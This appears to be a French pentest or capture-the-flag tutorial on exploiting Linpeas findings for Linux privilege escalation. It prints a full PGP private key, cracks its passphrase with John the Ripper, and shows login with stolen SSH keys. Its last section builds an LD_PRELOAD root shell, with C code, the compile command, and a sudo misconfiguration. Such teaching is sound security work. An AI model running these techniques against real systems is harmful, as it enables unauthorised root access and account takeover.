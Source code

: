 # 2. Exploiter les données de Linpeas

Nous verrons comment exploiter les données de Linpeas au travers d'exemples.

## Récupérer une clé PGP

Parfois, certaines clé pgp, utile pour se connecter a un ftp sans mot de passe, est possible d'accès par un utilisateur possédant des droits inférieurs.

```console
> cat key
-----BEGIN PGP PRIVATE KEY BLOCK-----

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
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```

Nous pouvons maintenant utiliser `JohnTheRipper` pour cracker le mot de passe.
Avant d'utiliser John, nous devons convertir la clé dans un format crackable par `JohnTheRipper`.

```bash
gpg2john key > gpg.john
```

Nous allons utiliser un liste de mot de passe pour cracker ce mot de passe.

```console
$ john -w=/usr/share/wordlists/rockyou.txt gpg.john
[...]
blink182         (user)
[...]
```

Nous avons donc maintenant le mot de passe de ce compte et pouvons donc se connecter en ssh.

## Récupérer une clé privée openssh

Une clé privée openssh est tout simplement un mot de passe en quelque sorte. L'avoir signifie donc que l'on a accès au compte qui utilise cette clé. 
Pour l'utiliser il suffit d'utiliser cette commande:

```bash
ssh -i cleprivee.file username@x.x.x.x
```

Si la console indique un problème de permissions, exécutez la commande suivante:

```bash
chmod 600 cleprivee.file
```

## usurpation de privilege 

```bash
sudo -u user fichier
```

Cette commande nous permet d'usurper les privilège d'un compte avec des droits supérieurs.

## Variable d'environment `LD_Preload`

Les bibliothèques partagées sont des bibliothèques qui sont chargées par les programmes lorsqu'ils démarrent. Lorsqu'une bibliothèque partagée est installée correctement, tous les programmes qui démarrent par la suite utilisent automatiquement la nouvelle bibliothèque partagée.

Chaque bibliothèque partagée a un nom spécial appelé "soname". Le soname est composé du préfixe "lib", du nom de la bibliothèque, de `".so"`, suivie d'un point et d'un numéro de version.

Les programmes ld.so et ld-linux.so* recherchent et chargent les objets partagés (bibliothèques partagées) nécessaires à un programme, préparent le programme à s'exécuter, puis l'exécutent.

LD_Preload : Il s'agit d'une variable d'environnement qui répertorie les bibliothèques partagées dont les fonctions remplacent l'ensemble standard, tout comme le fait /etc/ld.so.preload. Ces fonctions sont implémentées par le chargeur /lib/ld-linux.so

Il est important que l'utilisateur connecté ait des droits sudo, c'est pourquoi nous avons donné des droits sudo au programme `/usr/bin/find` qui sera exécuté par l'utilisateur sudo. Mais en dehors de cela, il existe une spécification par défaut où vous pouvez définir une variable d'environnement pour fonctionner comme sudo.

Pour ce faire, suivez les étapes ci-dessous :

- Ouvrez le fichier /etc/sudoers en tapant visudo

- Maintenant, donnez des droits sudo à un utilisateur, dans notre cas "user" sera membre de sudoers.

```bash
user ALL=(ALL:ALL) NOPASSWD : /usr/bin/find
```

- Ajoutez ensuite ce qui suit comme spécification par défaut pour définir l'environnement de LD_preload.

```bash
Défauts env_keep += LD_PRELOAD
```

Tapez la commande sudo -l pour détecter si cette vulnérabilité est présente.

Créons un fichier C dans le répertoire /tmp.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD") ;
    setgid(0) ;
    setuid(0) ;
    system("/bin/sh") ;
}
```

Sauvegardez-le ensuite sous le nom de shell.c dans /tmp.

Compilons-le pour générer un objet partagé avec l'extension .so, tout comme le fichier .dll dans le système d'exploitation Windows, et tapons donc ce qui suit :

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```console
$ ls -al shell.so
-rwxrwxr-x 1 user user 6416 Jun 13 22:50 shell.so
$ sudo LD_PRELOAD=/tmp/shell.so find
# id
# whoami
```

Nous avons obtenu l'accès ROOT.

